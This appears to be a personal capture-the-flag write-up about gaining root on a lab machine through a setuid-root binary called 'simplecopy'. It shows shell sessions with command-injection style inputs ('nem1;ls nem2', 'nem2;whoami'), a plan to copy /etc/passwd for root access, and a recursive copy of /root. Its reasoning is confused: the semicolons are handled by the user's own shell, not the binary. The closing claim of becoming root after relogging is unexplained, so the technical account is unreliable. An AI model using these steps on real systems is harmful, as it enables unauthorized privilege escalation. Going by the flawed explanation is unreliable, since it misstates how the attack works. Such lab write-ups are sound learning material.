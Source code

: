 The last binary is the one we should be exploiting because it's very new.

```
$ ls -alt /usr/bin
total 35800
-rwsr-xr-x 1 root root     16952 Dec  2 22:17  simplecopy
# removed

$ /usr/bin/simplecopy --help
Usage: ./simplecopy <source> <destination>
```

We can easily copy out `/etc/passwd` and change our permissions to be able to
run as root. However, what about the "crafty argument"?

Both arguments are vulnerable to command injection. However, first argument's
injection will use the rest as input. So `/usr/bin/simplecopy nem1;ls nem2` will
run `ls nem2`.

Seems like I cannot do spaces in the commands unless I split it between the
arguments. E.g., this doesn't work because `ls -alt` is counted as one command.

```
`/usr/bin/simplecopy nem2;'ls -alt' /root
Usage: /usr/bin/simplecopy <source> <destination>
bash: ls -alt: command not found`
```

This should work but doesn't?!

```
$ /usr/bin/simplecopy nem2;ls /root  
Usage: /usr/bin/simplecopy <source> <destination>
ls: cannot open directory '/root': Permission denied
```

For some reason I cannot see inside `/root`. Although the permissions are set.

```bash
$ /usr/bin/simplecopy nem2;'ls' -alt 
Usage: /usr/bin/simplecopy <source> <destination>
# removed
drwx------   1 root root 4096 Dec  2 22:17 root
```

I am still `elf`?

```
$ /usr/bin/simplecopy nem2;'whoami' 
Usage: /usr/bin/simplecopy <source> <destination>
elf
```

Looks like it's just piping the input to `cp` so `cp src dst`. So this copies
`/root` to `/home/elf`: `/usr/bin/simplecopy '-r /root' '/home/elf/'` but the
permissions are not changed.

After relogging to the machine, it worked. With `whoami` I can see I am root. So
now I can see inside the `/root` directory.
